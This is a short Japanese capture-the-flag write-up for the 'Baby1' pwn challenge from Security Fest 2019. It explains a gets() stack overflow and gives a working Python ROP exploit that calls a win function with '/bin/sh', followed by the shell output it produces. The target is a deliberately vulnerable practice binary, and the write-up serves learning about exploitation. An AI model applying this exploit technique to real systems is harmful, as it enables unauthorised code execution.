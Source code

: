 # [pwn 146pts] Baby1 - Security Fest 2019
64ビットでRELROが有効です。
```
$ checksec -f baby1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols     No	0		4	baby1
```

getsによるStack Overflowがあります。
また、第一引数をsystem関数に投げるwin関数があるので、これを利用しましょう。
`/bin/sh`という文字列はバイナリ中に含まれているのでこれを使います。

```python
from ptrlib import *

elf = ELF("./baby1")
sock = Process("./baby1")
rop_pop_rdi = 0x00400793

payload = b"A" * 0x18
payload += p64(rop_pop_rdi)
payload += p64(0x400000 + next(elf.find("/bin/sh")))
payload += p64(elf.symbol("win") + 1)
sock.sendline(payload)

sock.interactive()
```

簡単ですね。
```
...
input:  
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
Harekaze CTFのBaby ROPとまったく同じですね。